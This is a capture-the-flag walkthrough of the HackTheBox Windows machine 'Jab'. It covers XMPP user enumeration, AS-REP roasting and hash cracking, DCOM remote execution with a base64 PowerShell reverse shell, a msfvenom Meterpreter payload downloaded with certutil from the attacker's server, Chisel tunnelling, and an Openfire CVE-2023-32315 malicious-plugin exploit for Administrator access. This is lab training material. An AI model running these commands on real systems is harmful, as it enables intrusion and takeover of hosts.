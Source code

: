 ```yaml
---
title: "CTF: Jab (Windows, Medium)"
excerpt: "A detailed walkthrough of \"Jab\" machine on HackTheBox."
tagline: "Private chats are not so private."
header:
  teaser: /docs/assets/images/teasers/ctf/jab.png
  og_image: /docs/assets/images/teasers/ctf/jab.png
  overlay_image: /docs/assets/images/teasers/ctf/jab2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Medium
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Jab" machine on HackTheBox that is based on Windows operating system and categorized as "Medium" by difficulty. Infiltrate a private XMPP chat room to discover a path towards exploiting Openfire - an instant messaging and groupchat server.

## Reconnaissance

Run **nmap**:

```bash
nmap -sV -T4 <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/nmapscan.png" alt="">
  <figcaption></figcaption>
</figure>

Nmap scan reveals XMPP service running on port 5269. XMPP is an open communication protocol designed for instant messaging, presence information, and contact list maintenance. Based on XML, it enables the near-real-time exchange of structured data between two or more network entities. You can learn more about it on [https://xmpp.org](https://xmpp.org).

There are several popular XMPP clients available, in this scenario we will use [Pidgin](https://www.pidgin.im) XMPP client to connect to the messaging server.

```bash
# Install Pidgin with the following command
sudo apt install pidgin
```
Run Pidgin and, when prompted, add a new account specifying target domain name:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate.png" alt="">
  <figcaption></figcaption>
</figure>

On the advanced settings tab, set Connection security to *"Use encryption if available"*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate2.png" alt="">
  <figcaption></figcaption>
</figure>

Click "Add". You should connect to the server successfully. Go to Tools - Plugins, enable *XMPP Console* and *Service Discovery*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Select XMPP Service Discovery from Tools dropdown menu. It will show the following available services on the webserver:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/xmppservices.png" alt="">
  <figcaption></figcaption>
</figure>

From Tools menu, open XMPP Console. Then go to Accounts - your user - Search for Users. Advanced User Search will open, search users by wildcard:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearch.png" alt="">
  <figcaption></figcaption>
</figure>

You should get a list of all users both in XMPP Console and Advanced User Search results:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearchresults.png" alt="">
  <figcaption></figcaption>
</figure>

Copy the output from XML Console to a text file. Then modify the XML Output to only contain unique strings with usernames and save them to another file for your comfort. The following command should do the trick:

```bash
cat users.txt | grep ".htb" | uniq | sed 's/<value>//g;s/<\/value>//g' | tr -d ' ' > filename
```

Modify the file manually if there will be any leftover lines that do not represent usernames. Your final list should look like this:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userlist.png" alt="">
  <figcaption></figcaption>
</figure>

The discovered usernames appear to be domain users. It is possible use them in [ASREP-Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) attack using **GETNPUsers.py** from **Impacket** tools to possibly get some user's account hash.

```bash
# Run GetNPUsers.py and convert hashes into a format suitable for JohnTheReaper, place output in hashes.txt
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py jab.htb/ -usersfile asrepusers.txt -format john -outputfile hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/getnpusersrun.png" alt="">
  <figcaption>Running GetNPUsers.py</figcaption>
</figure>

The process will take some time as our user list is quite long, but eventually the tool will extract 3 password hashes for users that did not have Kerberos pre-authentication enabled.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/asrepresults.png" alt="">
  <figcaption></figcaption>
</figure>

Now let's attempt to crack them with *JohnTheRipper*:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/hashcrack.png" alt="">
  <figcaption>Got a password for jmontgomery user!</figcaption>
</figure>

We have discovered our first set of credentials. Use them to login to XMPP server as **jmontgomery**. Search for services again. As **jmontgomery**, you will see a **new chat room** that was not visible previously:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroom.png" alt="">
  <figcaption></figcaption>
</figure>

Join **"pentest2003"** chat:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroomjoin.png" alt="">
  <figcaption></figcaption>
</figure>

Read the chat. In the conversation, you can see a leaked hash/password for **svc_openfire** user / service:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/svcopenfirehash.png" alt="">
  <figcaption></figcaption>
</figure>


## Exploitation / Foothold


The target host has RPC service running on port 135. Attempting to use **DCOM RCE** technique to gain foothold on the system (**dcomexec.py from Impacket tools**):


```bash
# Start a Netcat listener on desired port:
nc -lnvp <PORT>
# Generate a base64-encoded reverse shell payload for Windows (for example, on revshells.com)
# Run dcomexec.py with the generated payload:
sudo python dcomexec.py -object MMC20 -dc-ip <TARGET_IP> -debug jab.htb/'svc_openfire':'<PASSWORD>'@<TARGET_IP> 'cmd.exe /c powershell -e <BASE64-ENCODED REVERSE SHELL>' -silentcommand
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/dcomexecrun.png" alt="">
  <figcaption></figcaption>
</figure>

If executed successfully, a callback should be received on Netcat listener:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/callback.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

Claim user flag in *c:\users\svc_openfire\desktop* folder:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userflag.png" alt="">
  <figcaption></figcaption>
</figure>


## Privilege escalation

To improve our capabilities, let's obtain a Meterpreter shell.

```bash
# Generate Meterpreter executable with msfvenom:
msfvenom  -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f exe > <filename>
# Start Metasploit and Meterpreter listener:
msfconsole
set payload windows/x64/meterpreter/reverse_tcp
set lhost <YOUR_IP>
set lport <PORT>
run
# Start Python HTTP server:
python3 -m http.server <PORT>
# On target host, download the generated file from your Python HTTP server:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/<filename>" <filename>
# Execute it
.\<filename>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/backdoorexe.png" alt="">
  <figcaption>Transferring and calling Meterpreter executable.</figcaption>
</figure>


You should receive a callback in Metasploit. Let's enumerate applications on the target host with *post/windows/gather/enum_applications* module:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/enum_applications.png" alt="">
  <figcaption></figcaption>
</figure>

It's possible to deduce that the messaging server is based on **Openfire** (however, we could deduce this from the username as well). Enumeration of active connections with **netstat** shows that Openfire is listening internally on port 9090:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/netstat.png" alt="">
  <figcaption></figcaption>
</figure>

From here it is necessary to perform port forwarding in order to reach Openfire on internal port. Unfortunately, Meterpreter's port forwarding module did not work during my walkthrough, so I had to resort to [Chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.3). Download a Windows x64 executable for the target machine and a Linux x64 one for yours. Transfer the Windows Chisel executable to the target host with the HTTP method shown previously. Then run the following:

```bash
# Attacker
./chisel_1.7.4_linux_amd64 server --reverse --port 9000
# Target
chisel_1.7.4_windows_amd64 client <YOUR_IP>:9000 9090:127.0.0.1:9090
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/chisel.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

If a tunnel has been established successfully, you can navigate to *127.0.0.1:9090* to reach Openfire Administration Console. Login with **svc_openfire** credentials:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/openfireconsole.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

### CVE-2023-32315

Vulnerability research for Openfire v.4.7.5. leads to **CVE-2023-32315** - Openfire Path Traversal which can be further exploited to gain unauthorized access to Openfire console and Remote Code Execution. Since we already have a set of credentials, we do not need to bypass authentication; we can proceed to the RCE part. For those interested, here's a great [article](https://vulncheck.com/blog/openfire-cve-2023-32315) that explains CVE-2023-32315 exploitation in more detail.

Download the following [exploit](https://github.com/miko550/CVE-2023-32315) from GitHub.


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/exploit.png" alt="">
  <figcaption></figcaption>
</figure>

Highlighted is a malicious "Management tool" plugin that will allow us to obtain RCE on the system and escalate privileges to Administrator. Upload the plugin in "Plugins" section.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pluginupload.png" alt="">
  <figcaption></figcaption>
</figure>


Navigate to Server - Server Settings - Management Tool. In the admin login panel, enter **123**. Select **system command** from dropdown menu. Background your current Meterpreter session with CTRL + Z and run the listener again. In the plugin's "Execute command" field, specify the path to the Meterpreter executable we have uploaded previously:


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/execcommand.png" alt="">
  <figcaption></figcaption>
</figure>

You will receive a Meterpreter shell as Administrator user.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/adminshell.png" alt="">
  <figcaption></figcaption>
</figure>


### Root flag

Claim root flag in *c:\users\administrator\desktop\root.txt*




**Thank you for your attention and happy hacking!**
{: .notice--primary}

